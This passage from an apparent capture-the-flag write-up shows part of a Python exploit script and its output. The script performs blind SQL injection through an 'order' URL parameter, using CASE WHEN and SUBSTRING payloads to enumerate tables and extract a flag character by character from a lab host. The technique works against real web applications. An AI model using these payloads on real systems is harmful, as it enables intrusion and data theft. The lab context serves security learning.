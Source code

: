 ```python
                count = 0
    table_columns[table].append(found_columns)
    print(f'{table} - {found_columns}')

# find the flag
print('')
print('### FINDING FLAG ###')
for table, column in table_columns.items():
    count = 0
    flag = ''
    #loop over all available tables
    while count < len(dictionary):
        for char in dictionary:
            count = count + 1
            payload = f'(CASE WHEN (SELECT (SUBSTRING({column[0]},1,{len(flag)+1})) from {table}) = \"{flag + char}\" then title else date end) ASC'
            print(payload)
            response = requests.get(url + f'/?order={payload}')
            if response.text == correct:
                flag += char
                count = 0
    print(f'{table} - {column[0]} - {flag}')
```

#### Output
```sql
$ python3 exploit.py http://10.10.63.92
### ADDING TEST DATA ###
title: a - date: 03/01/2023
title: b - date: 02/01/2023
title: c - date: 01/01/2023

### DUMPING TABLES ###
['todos', 'flag']

### DUMPING COLUMNS ###
todos - i
flag - flag

### FINDING FLAG ###
(CASE WHEN (SELECT (SUBSTRING(i,1,1)) from todos) = "0" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(i,1,1)) from todos) = "1" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(i,1,1)) from todos) = "2" then title else date end) ASC
...
(CASE WHEN (SELECT (SUBSTRING(i,1,1)) from todos) = "}" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(i,1,1)) from todos) = "~" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(i,1,1)) from todos) = " " then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,1)) from flag) = "0" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,1)) from flag) = "1" then title else date end) ASC
...
(CASE WHEN (SELECT (SUBSTRING(flag,1,1)) from flag) = "9" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,1)) from flag) = "a" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,1)) from flag) = "b" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,1)) from flag) = "c" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,1)) from flag) = "d" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,1)) from flag) = "e" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,1)) from flag) = "f" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,2)) from flag) = "fg" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,2)) from flag) = "fh" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,2)) from flag) = "fi" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,2)) from flag) = "fj" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,2)) from flag) = "fk" then title else date end) ASC
(CASE WHEN (SELECT (SUBSTRING(flag,1,2)) from flag) = "fl" then title else date end) ASC
```